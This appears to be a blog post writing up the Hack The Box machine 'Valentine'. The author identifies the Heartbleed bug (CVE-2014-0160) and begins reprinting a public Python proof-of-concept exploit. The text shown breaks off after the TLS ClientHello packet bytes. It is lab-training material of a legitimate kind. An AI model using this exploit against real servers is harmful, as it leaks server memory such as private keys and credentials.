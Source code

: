 ```yaml
---
layout: post
title:  "HTB: Valentine"
date:   2021-03-14 21:00:00 +1100
category: hacking
---
```


## Valentine
Valentine was next after Grandpa. I'm pretty sure I once fell asleep watching the start of the Ippsec walkthrough of this but I didn't remember anything about it. When it booted I thought *I have a feeling this is SLQi*. Lol.

## Ports
SSH plus HTTP and HTTPS only.

## HTTP
I don't know if it was the graphic or something buried in my subconcious but when I saw the frontpage I immediately thought this is Heartbleed. I had heard of it, but never actually encountered it before. There aren't many bugs that have their [own website](https://heartbleed.com/). It's essentially an information leak caused by a bug in OpenSSL. I used code from [here](https://stackabuse.com/how-to-exploit-the-heartbleed-bug/). In fact I'm going to reproduce it here just in case that page goes offline:

{% highlight python %}
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.
  
import sys
import struct
import socket
import time
import select
from optparse import OptionParser
  
# ClientHello
helloPacket = (
'16 03 02 00 31'    # Content type = 16 (handshake message); Version = 03 02; Packet length = 00 31
'01 00 00 2d'       # Message type = 01 (client hello); Length = 00 00 2d

'03 02'             # Client version = 03 02 (TLS 1.1)

# Random (uint32 time followed by 28 random bytes):
'50 0b af bb b7 5a b8 3e f0 ab 9a e3 f3 9c 63 15 33 41 37 ac fd 6c 18 1a 24 60 dc 49 67 c2 fd 96'
'00'                # Session id = 00
'00 04 '            # Cipher suite length
'00 33 c0 11'       # 4 cipher suites
'01'                # Compression methods length
'00'                # Compression method 0: no compression = 0
'00 00'             # Extensions length = 0
).replace(' ', '').decode('hex')


 
